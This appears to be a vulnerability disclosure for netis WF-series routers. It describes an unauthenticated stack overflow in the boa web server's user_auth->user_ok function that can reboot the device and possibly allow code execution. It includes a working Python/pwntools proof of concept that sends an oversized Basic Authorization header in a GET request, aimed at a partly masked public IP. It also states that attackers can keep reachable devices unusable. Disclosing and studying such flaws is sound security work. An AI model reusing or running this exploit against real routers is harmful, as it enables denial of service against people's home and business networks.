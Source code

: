 ## netis Denial of service
Product: netis WF2411-WF2880 (http://www.netis-systems.com/Home/info/id/2/hi/21.html)

version：The latest firmware --netis(WF2411)-V2.1.36123(http://www.netis-systems.com/Suppory/de_details/id/1/de/29.html)

Different device firmware version numbers may be different

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/netis/1.png)

Vulnerability location: file:  /bin/boa

function:user_auth->user_ok

Vulnerability Type: buffer overflow cause Denial of service
## Vulnerability Description
There is a stack overflow vulnerability that does not require authentication

This can cause Denial of service or  remote code execution
An attacker can restart a remote device by sending a malicious packet.

Code execution can also be achieved through ROP technology, but it is more difficult

This vulnerability can be triggered by a normal get packet
![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/netis/2.png)
## POC
```
import requests
import sys
import struct
import time
import base64
from pwn import *






def syscmd1(a):
	p=remote('195.211.?',8080)
	payload=''
	payload+='GET / HTTP/1.1\r\n'
	payload+='Host: 192.168.0.1\r\n'
	payload+='Authorization: Basic '+base64.b64encode(payload1)+'\r\n'
	payload+='Upgrade-Insecure-Requests: 1\r\n'
	payload+='User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98\r\n'
	payload+='Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8\r\n'

	payload+='Accept-Encoding: gzip, deflate\r\n'
	payload+='Accept-Language: zh-CN,zh;q=0.9"'
	payload+='Connection: close\r\n'
	payload+='\r\n'
	print payload
	p.send(payload)
	p.close()

if __name__ == "__main__":

				payload1='a:aa'+'a'*0x80
				print len(payload1)
				syscmd1('123')		
				print 'down'


```
![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/netis/3.png)
![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/netis/4.png)

## Harm
Can be accessed on the public network
An attacker can make all WF Series devices unusable by sending packets continuously
![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/netis/6.png)

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/netis/7.png)

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/netis/9.png)

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/netis/8.png)
